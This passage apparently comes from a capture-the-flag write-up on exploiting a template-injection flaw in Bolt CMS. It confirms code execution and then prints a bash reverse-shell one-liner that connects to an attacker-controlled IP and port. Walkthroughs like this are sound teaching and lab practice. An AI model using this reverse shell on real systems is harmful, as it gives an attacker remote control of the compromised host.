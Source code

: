 But that **change didn't take effect** until we **"Cleared the Cache"** from the option in the **"Maintenance"** menu.

![](/assets/Talkative/bolt-clear-the-cache-feature.jpg)

the **number 49** appeared at the **top right corner** of the page.

![](/assets/Talkative/bolt-ssti-execution-confirmed.jpg)

*Having* ***confirmed code execution,*** we switched to a **base64-encoded bash reverse shell** payload:

![](/assets/Talkative/bolt-ssti-bash-reverse-shell.jpg)

**which is**:

```bash
bash -i >& /dev/tcp/10.10.16.9/9000 0>&1
```
